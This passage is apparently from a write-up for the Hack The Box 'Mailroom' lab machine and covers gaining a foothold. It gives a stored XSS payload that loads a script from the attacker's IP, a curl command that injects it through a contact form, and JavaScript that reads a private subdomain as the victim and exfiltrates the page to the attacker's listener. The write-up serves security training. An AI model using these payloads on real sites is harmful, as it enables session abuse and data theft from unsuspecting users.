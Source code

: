 The change is focused on not sending more 2fa requests if a minute has not passed. However, it is worth noting that we find yet another subdomain this way: `http://staff-review-panel.mailroom.htb`. Based on the sensitive nature of the title, we shouldn't expect to be able to access this page externally or without credentials. Visitng the page shows that it is publicly accessible, but needs some additional authentication.

![](Images/Forbidden.png)

## Foothold
### Leveraging XSS to reach the private subdomain
Recalling the XSS trick discovered earlier, we were able to redirect someone's or something's session back to our machine, although there were no cookies for that main site. Perhaps this exploited session is able to access this subdomain for us?

This exploit idea is also covered in [write-ups for crossfit](https://0xdf.gitlab.io/2021/03/20/htb-crossfit.html), an insane difficulty box previously retired. The idea is to abuse XSS to perform requests as an authorized user, then relay the information back to our machine in the form of http post requests.

Instead of crafting a new XSS payload every time, it is easier to write an XSS that retrieves a script from our local machine and then executes it:
`<script src="http://10.10.14.35/at.js"></script>`

To make the process even more simple, we can write the request as a curl request. Burp Repeater is good for this as well:
```bash
curl -X POST http://mailroom.htb/contact.php -d "email=<script+src%3d"http%3a//10.10.14.35/at.js"></script>&title=a&message=a"
```

Now when the XSS activates, it will reach back to our attacker address `10.10.14.35` and execute script from `at.js`. I can easily make quick edits to `at.js` and send another curl to execute a new command.
at.js (inspired from 0xdf's crossfit writeup):

```js
var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if(fetch_req.readyState == XMLHttpRequest.DONE) {
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("POST", "http://10.10.14.35:9001", false);
        exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
    }
};
fetch_req.open("GET", "http://staff-review-panel.mailroom.htb/", false);
fetch_req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
fetch_req.send();
```
